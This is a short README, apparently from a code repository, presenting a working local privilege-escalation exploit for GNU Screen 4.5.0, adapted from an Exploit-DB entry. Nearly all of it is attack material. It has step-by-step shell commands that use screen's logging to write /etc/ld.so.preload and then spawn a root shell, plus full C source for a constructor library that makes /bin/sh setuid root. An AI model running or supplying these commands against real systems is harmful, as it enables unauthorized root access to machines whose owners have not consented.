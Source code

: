 # Priv Esc for Screen 4.5.0
Based on https://www.exploit-db.com/exploits/41154

Exploit Instructions:
```
cd /tmp
wget http://127.0.0.1/libhax.so    # Make sure libhax.so is in /tmp
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen ls
/bin/sh -p
```
libhax.c code (Compiled version available in repo)
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/bin/sh", 0, 0);
    chmod("/bin/sh", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
